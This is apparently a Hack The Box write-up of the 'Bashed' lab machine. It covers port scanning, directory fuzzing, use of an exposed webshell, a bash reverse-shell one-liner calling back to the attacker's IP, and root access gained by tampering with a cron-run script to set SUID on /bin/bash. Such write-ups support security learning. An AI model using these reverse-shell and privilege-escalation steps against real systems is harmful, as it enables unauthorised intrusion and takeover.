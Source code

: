 ```yaml
---
title: Bashed
author: nf4ll
date: 2022-12-21 10:29:00 +0000
categories: [Hack The Box, Machines]
tags: [Apache, Web, SUID, Code Execution]
math: true
mermaid: true
image:
  path: /assets/img/posts/Bashed/Bashed.PNG
  width: 1200
  height: 600
---
```

# Write Up

About Bashed machine:
- OS: Linux
- Difficulty: Easy
- Release date: 2017-Dec-09
- IP: 10.10.10.68

## Scan phase

Firstly, I run an active scan to get the open ports in the machine. Syn Stealth Scan (-sS) is used for this scan. 

```bash
nmap -sS -p- --open -n -Pn --min-rate 5000 -oN host 10.10.10.68
Starting Nmap 7.92 ( https://nmap.org ) at 2022-12-21 17:50 CET
Nmap scan report for 10.10.10.68
Host is up (0.047s latency).
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 11.89 seconds
```

Now, I scan versions and run default NSE scripts to detect possible attacks or exclude other attacks, like brute force. The versions are obtained with -sV parameter and extra information is gained with -sC parameter.
The port 80 is found open. This port is running Apache 2.4.18, but I haven't more information. 

```bash
nmap -sCV -p80 -oN ports 10.10.10.68
Starting Nmap 7.92 ( https://nmap.org ) at 2022-12-21 17:51 CET
Nmap scan report for 10.10.10.68
Host is up (0.046s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Arrexel Development Site

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.19 seconds
```

At this point, I search the web to get any interesting paths or something to execute an exploit.

![Desktop View](/assets/img/posts/Bashed/web.PNG)

I can't find anything on the web. I attack the web by fuzzing to search hint paths. I choose wfuzz tool to run this attack. I prefer wfuzz than other because you can add threads to do it shorter.

```bash
wfuzz -t 400 --hc=404 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt http://10.10.10.68/FUZZ
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.10.68/FUZZ
Total requests: 220560

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                    
=====================================================================

000000001:   200        161 L    397 W      7743 Ch     "# directory-list-2.3-medium.txt"                                                                                          
000000007:   200        161 L    397 W      7743 Ch     "# license, visit http://creativecommons.org/licenses/by-sa/3.0/"                                                          
000000003:   200        161 L    397 W      7743 Ch     "# Copyright 2007 James Fisher"                                                                                            
000000550:   301        9 L      28 W       308 Ch      "css"                                                                                                                      
000000014:   200        161 L    397 W      7743 Ch     "http://10.10.10.68/"                                                                                                      
000000016:   301        9 L      28 W       311 Ch      "images"                                                                                                                   
000000013:   200        161 L    397 W      7743 Ch     "#"                                                                                                                        
000000012:   200        161 L    397 W      7743 Ch     "# on atleast 2 different hosts"                                                                                           
000000011:   200        161 L    397 W      7743 Ch     "# Priority ordered case sensative list, where entries were found"                                                         
000000010:   200        161 L    397 W      7743 Ch     "#"                                                                                                                        
000000009:   200        161 L    397 W      7743 Ch     "# Suite 300, San Francisco, California, 94105, USA."                                                                      
000000006:   200        161 L    397 W      7743 Ch     "# Attribution-Share Alike 3.0 License. To view a copy of this"                                                            
000000008:   200        161 L    397 W      7743 Ch     "# or send a letter to Creative Commons, 171 Second Street,"                                                               
000000005:   200        161 L    397 W      7743 Ch     "# This work is licensed under the Creative Commons"                                                                       
000000002:   200        161 L    397 W      7743 Ch     "#"                                                                                                                        
000000953:   301        9 L      28 W       307 Ch      "js"                                                                                                                       
000000834:   301        9 L      28 W       308 Ch      "dev"                                                                                                                      
000002771:   301        9 L      28 W       310 Ch      "fonts"                                                                                                                    
000000338:   301        9 L      28 W       308 Ch      "php"                                                                                                                      
```

## Explotation phase

An important directory is found by wfuzz. The directory is called  _dev_. Two files are been in the directory. I visualize the directory _phpbash.php_. A webshell runs in this path and it works like common shell.

![Desktop View](/assets/img/posts/Bashed/webshell.PNG)

I could try to get the user flag without enabling a reverse shell. Finally, the user flag is obtained:

![Desktop View](/assets/img/posts/Bashed/user.PNG)

To finish with the explotation phase, I run a reverse shell to upload privilages more easily. The & symbol is changed by %26 because we need to encode as url-encode. If The command isn't encoded, the shell doesn't run because it is not supported. 
After I run the reverse shell, I run netcat to open a listen port and receive the shell.

```bash
bash -c "bash -i %26> /dev/tcp/10.10.14.8/443 0>%261"
```

Once the access is gained, this phase is ended.

## Privilege escalation

Now, I verify that I'm not in user groups and I find something useful to escalate privileges. The user www-data can run commands as scriptmanager without password.

![Desktop View](/assets/img/posts/Bashed/sudol.PNG)

The following command is run to get a bash of the scriptmanager user:

```bash
sudo -u scriptmanager bash -c bash
```

When the user flag is searched a "scripts" directory is found. Here is the content of both scripts:

```bash
# test.py
f = open("test.txt", "w")
f.write("testing 123!")
f.close

# test.txt
testing 123!
```

"Test.txt" file is created by root. In this case We can think root have a cron task to run "test.py". I can modify "test.py", so I write the script in python to modify permission and get SUID permission.

When "test.py" is run I analize permissions. SUID permission is found in "/bin/bash". To get the bash of the root user I need to run the following command:

```bash
bash -p 
# -p is to runs this command like its owner. In this case I runs bash as root.
```

Finally, I get the root flag: 

![Desktop View](/assets/img/posts/Bashed/root.PNG)
